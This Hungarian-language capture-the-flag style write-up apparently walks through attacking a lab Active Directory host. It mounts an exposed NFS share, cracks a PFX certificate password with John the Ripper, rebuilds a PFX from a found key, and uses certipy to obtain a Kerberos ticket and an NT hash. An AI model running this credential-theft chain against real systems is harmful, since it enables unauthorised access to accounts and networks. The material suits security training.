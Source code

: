
## NFS Share & Tanúsítványok

**NFS elérhető, mountoljuk:**

```bash
showmount -e 10.10.11.65
Export list for 10.10.11.65:
/helpdesk (everyone)
mkdir /tmp/helpdesk
sudo mount -t nfs 10.10.11.65:/helpdesk /tmp/helpdesk
ls -l /tmp/helpdesk
```
**Talált fájlok:**
- baker.crt
- baker.key
- clark.pfx
- lewis.pfx
- scott.pfx

**Jelszó feltörése PFX-hez:**
```bash
pfx2john clark.pfx > clark.hash
john --wordlist=/usr/share/wordlists/rockyou.txt clark.hash
```
Jelszó: `ne*********`

**baker.key feloldása**
```bash
openssl rsa -in baker.key -out baker.plain.key
```

**baker.key + baker.crt → pfx:**
```bash
sudo openssl pkcs12 -export -out baker.pfx -inkey baker.plain.key -in baker.crt
```

---

## Certipy authentication baker.pfx-el

```bash
certipy auth -pfx baker.pfx -username d.baker -dc-ip 10.10.11.65

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'd.baker@scepter.htb'
[*]     Security Extension SID: 'S-1-5-21-74879546-916818434-740295365-1106'
[*] Using principal: 'd.baker@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'd.baker.ccache'
[*] Wrote credential cache to 'd.baker.ccache'
[*] Trying to retrieve NT hash for 'd.baker'
[*] Got hash for 'd.baker@scepter.htb': aad3b435b
```
TGT szerzés, hash dump, `.ccache` export:
```bash
export KRB5CCNAME=d.baker.ccache
```

---